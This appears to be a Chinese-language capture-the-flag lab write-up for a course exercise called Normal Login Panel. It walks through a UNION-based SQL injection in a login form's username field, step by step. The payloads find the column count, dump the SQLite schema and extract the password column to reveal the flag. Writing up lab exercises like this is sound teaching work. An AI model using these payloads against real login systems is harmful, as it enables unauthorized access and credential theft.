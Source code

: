 ```SQL
admin' union select 1 --
```
結果會回傳
![](assets/3-6.png)
代表嘗試的 query 形式是錯的，username 改成嘗試輸入
```SQL
admin' union select 1, 2 --
```
一樣也是 Internal Server Error，username 改成輸入
```SQL
admin' union select 1, 2, 3 --
```
一樣也是 Internal Server Error，username 再改成輸入
```SQL
admin' union select 1, 2, 3, 4 --
```
這次終於有成功回傳東西，而沒有回傳 Internal Server Error
![](assets/3-7.png)
回傳的內容是登入錯誤次數為 4\
而且是在 union select 了 4 個 column 的情況下才有成功回傳\
這代表第 4 個 column 即為 count，且值為 4\
接下來 username 輸入
```SQL
admin' union select 1, 2, 3, user() --
```
結果回傳 Internal Server Error，代表 ```user()``` 應該是錯的
```user()``` 是 MySQL 內建的 function，如果會報錯代表這題的 DB 不是 MySQL，而是其他的 DB\
不過講師上課時有直接明說這題的 DB 是用 SQLite\
到 https://github.com/w181496/Web-CTF-Cheatsheet 查詢 SQLite 有什麼樣的 injection 方式\
在 SQLite 的部分，查到了可以爆破 table 的 column 的手法
![](assets/3-8.png)
於是就直接拿來用，username 輸入
```SQL
admin' union select 1, 2, 3, sql from sqlite_master where type='table' --
 ```
成功回傳了 table 的資訊
![](assets/3-9.png)
table name 為 users，包含 4 個 column：id、username、password、count

知道了 password 所在的 table name 和 column 後，username 改為輸入
```SQL
admin' union select 1, 2, 3, password from users --
```
![](assets/3-10.png)
成功得出 flag 為 ```FLAG{Un10N_s31eCt/**/F14g_fR0m_s3cr3t}```
## [LAB] Normal Login Panel (Flag 2)

